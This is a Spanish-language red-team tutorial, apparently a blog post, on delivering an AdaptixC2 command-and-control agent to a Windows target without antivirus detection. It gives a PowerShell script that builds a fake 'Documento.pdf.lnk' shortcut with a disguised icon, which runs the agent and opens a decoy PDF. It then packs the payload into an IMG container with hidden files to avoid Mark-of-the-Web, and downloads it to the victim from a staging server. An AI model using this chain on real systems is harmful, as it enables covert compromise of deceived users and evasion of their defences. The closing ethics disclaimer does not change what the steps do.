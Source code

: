 # Método de ejecución Agente C2

# Método de ejecución Agente C2

## Introducción

En este post voy a describir una manera de como un atacante o miembros de un Red Team pueden elaborar un fichero malicioso y ser ejecutado en la maquina objetivo con el fin de obtener acceso sin ser detectado por el antivirus.

Para este post he utilizado el Command and Control AdaptixC2, no voy a entrar en profundidad en como se instala ya que en la propia documentación viene bien detallado el proceso. Aunque si encontráis algún inconveniente a la hora de instalar la versión de GO os recomiendo que descarguéis directamente el paquete de la web oficial [aqui](https://go.dev/dl/). 

Os dejo el repositorio de AdaptixC2  [aqui](https://github.com/Adaptix-Framework/AdaptixC2) y su documentacion [aqui](https://adaptix-framework.gitbook.io/adaptix-framework).

## Creación de listener y Agente

Una vez hemos ejecutado el servidor y el cliente, nos aparecerá la interfaz del cliente, lo primero que debemos hacer es crear un listener al que se conectara nuestro agente generado posteriormente.

Para este Post voy a utilizar un listener de tipo HTTP, para ello debemos hacer clic en la esquina superior izquierda en el icono de los cascos.

![image.png](image.png)

Una vez abierta la pestaña de los listeners hacemos clic derecho > Create y nos aparecerá la siguiente ventana:

![image.png](imagenes/image%201.png)

Desde aquí podemos configurar nuestro listener, para esta prueba solo he realizado cambios en la pestaña Main settings, pero también se pueden configurar las cabeceras HTTP, una pagina de error y la pagina del Payload.

Indicamos un nombre y añadimos la ip de la maquina donde se ejecuta el servidor y un puerto, al final debería quedar algo así:

![image.png](imagenes/image%202.png)

Para finalizar este paso solo nos queda generar el agente, para ello hacemos clic derecho en el listener recién creado.

![image.png](imagenes/image%203.png)

Nos aparecerá la siguiente ventana:

![image.png](imagenes/image%204.png)

Para esta prueba no he realizado cambios, pero como se puede observar podemos modificar la arquitectura, el tipo de formato, el campo Sleep, cuando queremos que termine la conexión remota y el tiempo activo del agente.

Hacemos clic en Generate y guardamos nuestro agente.

## Shell Link

Para la ejecución de nuestro agente voy a utilizar un fichero .lnk generado con PowerShell el cual va ejecutar nuestro agente y un pdf que queramos mostrarle al usuario objetivo como señuelo.

Esta opción es interesante ya que aunque el usuario tenga activado la opción de ver la extensión en el explorador, la extensión .lnk no va a ser visible.

```bash
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\Documento.pdf.lnk")

$lnk.TargetPath = "%COMSPEC%"

$lnk.Arguments = "/C start agent.64.exe && start Documento.pdf"

$lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$lnk.Save()
```

Si el icono de pdf no se muestra se puede cambiar haciendo clic en propiedades y cambiar icono.

![image.png](imagenes/image%205.png)

## Container

Una vez tenemos los tres ficheros: Documento.pdf(señuelo), Agent.64.exe(payload) y Documento.pdf.lnk(trigger) pasamos a empaquetarlos en un único comprimido así evitamos el tener que enviar múltiples ficheros al objetivo.

Mark of the web(MotW) es un identificador de zona que se utiliza para marcar los archivos descargados de Internet como potencialmente inseguros.  Esto se puede ver en un archivo consultando sus propiedades en el Explorador o utilizando PowerShell.

![image.png](imagenes/image%206.png)

![image.png](imagenes/image%207.png)

Algunos  formatos de comprimidos admiten archivos ocultos, y otros no propagan MotW.  [Este repositorio](https://github.com/nmantani/archiver-MOTW-support-comparison) de [Nobutaka Mantani](https://x.com/nmantani) contiene una comparación de las propagaciones de MotW.

Para empaquetar nuestros ficheros voy a utilizar la herramienta [PackMyPayload](https://github.com/mgeeky/PackMyPayload).

Añado los ficheros a una carpeta.

![image.png](imagenes/image%208.png)

Y los empaqueto en un fichero con formato IMG ocultando agent.64.exe y Documento.pdf utilizando el parámetro `-H` .

```bash
python3 PackMyPayload.py -H agent.64.exe,Documento.pdf ~/Desktop/container ~/Desktop/container/package.img
```

## Envió y ejecución

Por ultimo transferimos nuestro fichero generado a la maquina objetivo levantando un servidor con python:

```bash
python -m http.server 8000
```

y en la maquina objetivo desde PowerShell lo descargamos:

```bash
 iwr -Uri http://192.168.154.128:8000/package.img -Outfile package.img
```

Abrimos package.img y abrimos el fichero que contiene produciendo así la conexión del agente con nuestro Command and control y todo ello con Windows Defender activado.

![image.png](imagenes/image%209.png)

![image.png](imagenes/image%2010.png)

![image.png](imagenes/image%2011.png)

Recuerdo que este post es con fines educativos y éticos y no se debe emplear para fines ilegales.
